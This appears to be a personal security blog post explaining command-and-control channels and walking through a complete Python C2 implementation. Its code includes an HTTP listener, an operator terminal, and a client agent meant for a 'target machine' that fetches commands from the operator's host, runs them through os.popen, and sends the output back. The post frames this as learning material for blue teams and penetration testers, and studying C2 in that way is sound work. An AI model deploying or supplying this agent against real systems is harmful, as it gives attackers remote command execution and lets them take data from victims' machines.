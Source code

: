 ```yaml
---
title: Creating a Barebones C2 Channel
author: kyhle
date: 2021-06-11 12:00:00 +0200
categories: [InfoSec, Technical]
description: Hi all, My name is Kyhle Öhlinger and this blog post forms part of my personal blog. If you enjoy any of the posts, feel free to reach out and let me know :) 
image:
  path: /assets/img/c2.jpg
  width: 800
  height: 500

--- 
```


The phrase "Command and Control (C2)", which has its origins in military terminology, refers to the approach an attacker uses to take command of and exercise control over a compromised system. In the world of malware, C2 is typically used to execute arbitrary commands on a victim system, report the status of a compromise to an attacker, or exfiltrate information. C2 channels may be used to commandeer an individual host or control a botnet of millions of machines.

Attackers use a variety of techniques and protocols for command and control. Internet Relay Chat (IRC), which facilitates group messaging via a client-server model, was a common C2 protocol for many years. However, IRC is rarely used in business environments, so it is easy for defenders to detect this potentially malicious traffic. As a result, attackers consider alternative protocols that allow them to better hide in plain sight. HTTP is an obvious choice because of its prevalence across the corporate enterprise. Additionally, with the introduction of various communication platforms within organizations, an uptick in C2 channels using Teams and Slack has been identified.

There are a lot of free open source post-exploitation toolsets that provide this kind of capability, like Metasploit, Empire, Covenant and many others. This post could be helpful for blue teams or penetration testers who want to become more familiar with how command and control servers function at the most basic level.

## Basic Requirements

A basic C2 should consist of; a server, an agent, and a listener. A basic C2 server should be able to:
* Start and stop listeners
* Generate payloads
* Handle agents and task them

An agent should be able to:
* Download and execute tasks
* Send results
* Persist

A listener should be able to:
* Handle multiple agents
* Host files
* Ensure that communication is encrypted


## Basic Flow
There are lots of different ways you can approach this, so I will just cover one approach

1. Client makes an initial callout (HTTP/S) to the C2 server for instructions
2. Server has no tasks, but keeps requests open
3. Operator creates a task and sends to the client
5. Client executes the instructions and sends the results to the C2 server 
6. Server displays results to the operator

The benefit of this method is that the volume of requests could be super low and there won't be a spike in traffic during any stage of operation since the connection is alive. Of course there are lots of other steps you can incorporate above, but these are what I would say are the basics for client-server C2 communications.

## The Code

Now that you have a very high-level understanding of what a C2 channel is, it's time to get into a very basic Python C2 program. As described above, the C2 will consist of: a server, an agent, a listener, and a client.

### C2 Server
This is going to be responsible for maintaining the command variables, starting terminals, and starting listeners.
```python
# main.py
from threading import *
from terminal import *
import listener
cmd = ''

if __name__ == '__main__':
    # Terminal Functionality
    terminal = Terminal()

    # Create Agent Threads
    terminal_thread = Thread(target = terminal.cmdloop,)
    terminal_thread.start()

    # Web Functionality
    print("Starting Webserver...")
    listener.run()
```

### Terminal
This will take the commands and update the main commands.
```python
# terminal.py

from cmd import Cmd
import main

class Terminal (Cmd):
    # Modify the prompt to be whatever you like
    prompt = '$ > '

    def default(self,args):
        main.cmd = args
```

### Listener
Simple web server and hands out operations. Additionally, this will be responsible for printing output to the terminal.

```python
# listener.py
from http.server import HTTPServer, BaseHTTPRequestHandler
from socketserver import ThreadingMixIn
from time import sleep
from urllib.parse import urlparse, unquote_plus, parse_qs

import threading
import main

# Global Variables
IP_Address = ''
Port = 80
Sleep_Timer = .25

class Handler(BaseHTTPRequestHandler):
    def do_GET(self):
        try:
            # Print IP address of host connecting to your C2 - Remove if too noisy
            print("Connection received from: " + self.client_address[0])

            # A basic call would look like: curl http:ip/output?q=something
            # Change 'output' and 'q' as required
            if 'output' in self.path:
                # Handle Output
                request_url = urlparse(self.path)
                request_param = parse_qs(request_url.query)
                print("")
                for param in request_param['q']:
                    print(param.strip())
                
                self.send_response(200)
                self.end_headers()
                self.wfile.write(main.cmd.encode())
                return           
        except:
            # Do nothing
            None

        while main.cmd == '':
            sleep(Sleep_Timer)

        self.send_response(200)
        self.end_headers()
        self.wfile.write(main.cmd.encode())
        main.cmd = ''

    # Remove Request Default Information
    def log_message(self, format, *args):
        return

class ThreadingSimpleServer(ThreadingMixIn, HTTPServer):
    pass

def run():
    http = ThreadingSimpleServer( (IP_Address, Port), Handler)
    http.serve_forever()

```

### Client
This will be the "payload" / web cradle that is delivered to the host that you want to exploit. It will need to be run on the target machine, and from there, you will be able to run commands through `main.py` on your host and receive feedback through the C2 channel.

```python
# client.py
import requests
import os
import warnings
warnings.filterwarnings("ignore", category=RuntimeWarning) 

from time import sleep

# Global Variables
IP_Address = ''
Sleep_Timer = .25

while True:
    r = requests.get("http://" + IP_Address)
    output = os.popen(r.text, 'r', 1)
    payload = { 'q': output }

    # Preferrable to change to POST to remove likelihood of detection and limit length being exceeded
    requests.get("http://" + IP_Address + "/output", params = payload)
    sleep(Sleep_Timer)
```

As a final step, you will need to run `sudo python3 main.py` on your host to start the C2 server and `python3 client.py` on the target machine in order to establish the connection.

## Conclusion

This post was meant to be a starting point for others who are looking to learn more about C2. The basic channel described in this post wouldn't be great for penetration testing purposes and since the channel used was HTTP using GET methods, it would be very easy to view the commands issued to and from the agents. Remember, any identified C2 channels serve as helpful indicators of compromise (IoCs) that can be used to detect other instances of the same or similar malware. IoCs related to C2 include domain names, IP addresses, protocols, and even patterns of bytes seen in network communications, which could represent commands or encoded data.

I hope you had fun reading this post (and potentially creating your own C2). As always, if you have any questions or recommendations, feel free to reach out!